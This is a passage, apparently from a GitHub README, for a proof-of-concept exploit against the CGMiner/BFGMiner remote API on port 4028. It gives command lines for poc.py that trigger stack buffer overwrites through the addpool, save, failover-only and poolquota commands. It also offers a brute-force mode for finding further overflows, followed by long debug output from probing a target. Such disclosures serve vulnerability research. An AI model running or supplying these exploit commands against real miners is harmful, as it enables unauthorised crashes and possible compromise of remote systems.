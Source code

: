 ```STATUS=E,When=1518898313,Code=14,Msg=Invalid command,Description=cgminer 4.9.0|\x00```
 [xxx] Generated stratum work
 [xxx] Pushing work from pool 0 to hash queue
 [xxx] API running in IP access mode on port 4028 (3)
 [xxx] Testing pool stratum+tcp://ltc-eu.give-me-coins.com:3334
...
`

2. [vector 1] To trigger the stack buffer overwrite in `addpool, save, failover-only, poolquota` launch `poc.py --vector=crash_<addpool|failover|poolquota|save> <target-ip:port>`

Launch `poc.py` and trigger any of the `crash_*` vectors (stack buffer overwrite). `poc.py` by default is pretty
verbose and checks for all available commands on the target. Accessible commands will be listed. The buffer overwrite
is triggered with the last command in the output.

Note: you may also want to brute-force all available commands for overflows with `poc.py --havoc <target-ip:port>`

`#> poc.py --vector=crash_addpool 192.168.2.114:4028

[cgminer.py -             <module>() ][    INFO] --start--
[cgminer.py -             <module>() ][    INFO] # CGMiner / BFGMiner exploit
[cgminer.py -             <module>() ][    INFO] # github.com/tintinweb

[cgminer.py -             <module>() ][    INFO] [i] about to check for the following commands: ['gpufan', 'ascset', 'gpuvddc', 'cpurestart', 'pga', 'asccount', 'pgarestart', 'disablepool', 'hotplug', 'estats', 'ascidentify', 'zero', 'usbstats', 'failover-only', 'notify', 'gpuenable', 'edevs', 'procdisable', 'poolquota', 'addpool', 'check', 'devdetails', 'pgaenable', 'quit', 'stats', 'gpumem', 'debug', 'switchpool', 'ascenable', 'procdetails', 'version', 'procs', 'ascdisable', 'pgacount', 'cpuenable', 'save', 'config', 'privileged', 'gpurestart', 'pgaidentify', 'gpucount', 'gpudisable', 'gpuintensity', 'procenable', 'gpuengine', 'asc', 'pools', 'lcd', 'cpucount', 'gpu', 'procidentify', 'coin', 'cpudisable', 'pgaset', 'restart', 'procnotify', 'pgadisable', 'proccount', 'setconfig', 'lockstats', 'proc', 'procset', 'enablepool', 'summary', 'devs', 'devscan', 'removepool', 'poolpriority', 'cpu']
[cgminer.py -              sendRcv() ][   DEBUG] sendRcv: '{"parameter": "gpufan", "command": "check"}\n'
[cgminer.py -    _get_capabilities() ][   DEBUG] response: 'gpufan' {u'STATUS': [{u'STATUS': u'S', u'Msg': u'Check command', u'Code': 72, u'When': 1519337465, u'Description': u'cgminer 4.10.0'}], u'CHECK': [{u'Access': u'N', u'Exists': u'N'}], u'id': 1}
[cgminer.py -              sendRcv() ][   DEBUG] sendRcv: '{"parameter": "ascset", "command": "check"}\n'
[cgminer.py -    _get_capabilities() ][   DEBUG] response: 'ascset' {u'STATUS': [{u'STATUS': u'S', u'Msg': u'Check command', u'Code': 72, u'When': 1519337465, u'Description': u'cgminer 4.10.0'}], u'CHECK': [{u'Access': u'N', u'Exists': u'N'}], u'id': 1}
[cgminer.py -              sendRcv() ][   DEBUG] sendRcv: '{"parameter": "gpuvddc", "command": "check"}\n'
[cgminer.py -    _get_capabilities() ][   DEBUG] response: 'gpuvddc' {u'STATUS': [{u'STATUS': u'S', u'Msg': u'Check command', u'Code': 72, u'When': 1519337465, u'Description': u'cgminer 4.10.0'}], u'CHECK': [{u'Access': u'N', u'Exists': u'N'}], u'id': 1}
[cgminer.py -              sendRcv() ][   DEBUG] sendRcv: '{"parameter": "cpurestart", "command": "check"}\n'
[cgminer.py -    _get_capabilities() ][   DEBUG] response: 'cpurestart' {u'STATUS': [{u'STATUS': u'S', u'Msg': u'Check command', u'Code': 72, u'When': 1519337465, u'Description': u'cgminer 4.10.0'}], u'CHECK': [{u'Access': u'N', u'Exists': u'N'}], u'id': 1}
[cgminer.py -              sendRcv() ][   DEBUG] sendRcv: '{"parameter": "pga", "command": "check"}\n'
[cgminer.py -    _get_capabilities() ][   DEBUG] response: 'pga' {u'STATUS': [{u'STATUS': u'S', u'Msg': u'Check command', u'Code': 72, u'When': 1519337465, u'Description': u'cgminer 4.10.0'}], u'CHECK': [{u'Access': u'N', u'Exists': u'N'}], u'id': 1}
[cgminer.py -              sendRcv() ][   DEBUG] sendRcv: '{"parameter": "asccount", "command": "check"}\n'
```